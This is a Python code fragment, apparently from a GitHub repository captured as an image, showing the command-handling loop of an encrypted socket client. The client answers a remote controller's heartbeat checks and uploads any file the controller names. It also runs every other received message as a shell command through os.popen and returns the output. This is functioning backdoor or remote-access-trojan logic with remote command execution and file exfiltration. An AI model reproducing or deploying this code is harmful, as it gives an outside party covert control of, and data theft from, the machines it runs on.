```python
            message = None
            msg = client.recv(1024)
            msg = dec_mes(msg, k)
            message = msg.decode()

            if msg == b'':
                time.sleep(10)
                s = 0

                while msg == b'':
                    s += 1
                    msg = client.recv(1024)

                    if s == 300:
                        raise Exception("Reconnect!")

            if message == "check":
                enc_answ = enc_mes("check-ok", k)
                client.send(enc_answ)

            elif message == "send_file":
                receive_file_thread = threading.Thread(target=receive_file)
                receive_file_thread.start()

            elif message == "get_file":
                okenc = enc_mes("ok", k)
                client.send(okenc)

                path_to_file = client.recv(1024)
                path_to_file = dec_mes(path_to_file, k).decode()

                try:
                    with open(path_to_file, "rb") as f:
                        bytes_read = f.read()

                    bytes_enc = enc_mes(bytes_read, k)
                    filesize = enc_mes(str(len(bytes_enc)), k)

                    client.send(filesize)
                    vsb = dec_mes(client.recv(1024), k)

                    if vsb.decode() == "ok":
                        client.sendall(bytes_enc)
                except Exception:
                    client.send("Error uploading file".encode("utf-8"))

            elif message not in [None, "", "\n"]:
                try:
                    answer = os.popen(message).read()

                    if not answer:
                        client.send("Bad command!".encode("ascii"))
                    else:
                        enc_answer = enc_mes(answer, k)
                        size = str(len(enc_answer))

                        client.send(size.encode("utf-8"))

                        if dec_mes(client.recv(1024), k).decode() == "ok":
                            client.sendall(enc_answer)
                except Exception:
                    client.send("Bad command!".encode("ascii"))

```